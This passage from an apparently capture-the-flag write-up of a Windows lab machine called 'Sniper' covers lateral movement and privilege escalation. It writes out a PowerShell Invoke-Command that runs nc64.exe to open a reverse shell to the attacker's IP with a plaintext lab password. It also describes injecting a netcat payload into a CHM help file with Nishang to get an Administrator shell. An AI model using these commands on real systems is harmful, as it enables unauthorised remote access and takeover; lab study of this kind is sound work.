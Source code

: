 so the commands to execute a program in the context of another user maybe like this

   
    $user = "sniper\Chris"  # to save the username in a variable called user
    $password = ConvertTo-SecureString "36mEAhz/B8xQ~2VM" -AsPlainText -Force # convert the password to a plain-text string into password variable
    $credential = New-Object System.Management.Automation.PSCredential ($user, $password) # create a PS credentials object of chris and the db password
    Invoke-Command -ComputerName localhost -ScriptBlock { C:\\temp\\nc64.exe 10.10.17.157 7007 -e powershell.exe } -Credential $credential # run the nc64.exe to connect to us on port 7007 in the context of Chris user using the credentials object we created

![/images/Sniper/chris-shell.png](/images/Sniper/chris-shell.png)

Then we got our shell and here is the user flag.

### 2- **Elevate priv from Chris to Root.**

After some time exploring the folders, there is a file in the **C:\Docs** folder.

- note.txt

        Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it.
        And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.
        Regards,
        Sniper CEO.

So
1- The CEO is mad.

2- Chris has to drop a documentation file in this folder so there maybe a script that will execute/interact with this file. But what file exactly ?.

There is a **instructions.chm** (Microsoft Compiled HTML Help file) in **C:\Users\Chris\Downloads,**let's see what it is about. (I used my windows machine for this part)

![/images/Sniper/pff.png](/images/Sniper/pff.png)

So Chris also mad (very BAD work environment) but let's make his wish come true.

**Attack Vectors**

1- Inject a payload into chm document.

**[Nishang Out-CHM](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)** powershell script will inject our payload into valid **chm** format. You will need **HTML Help Workshop** program installed you can download it from Microsoft website.

![/images/Sniper/chm-payload.png](/images/Sniper/chm-payload.png)

Basically the script takes the payload specified and injects it into a valid chm document.

The **payload** just runs the netcat to connect back to us on port 7008.

2- Upload the malicious chm file to the victim machine into folder **C:\Docs**

3- The file will be executed and you will get a **shell as Administrator.**

![/images/Sniper/root.png](/images/Sniper/root.png)

**And Rooted #**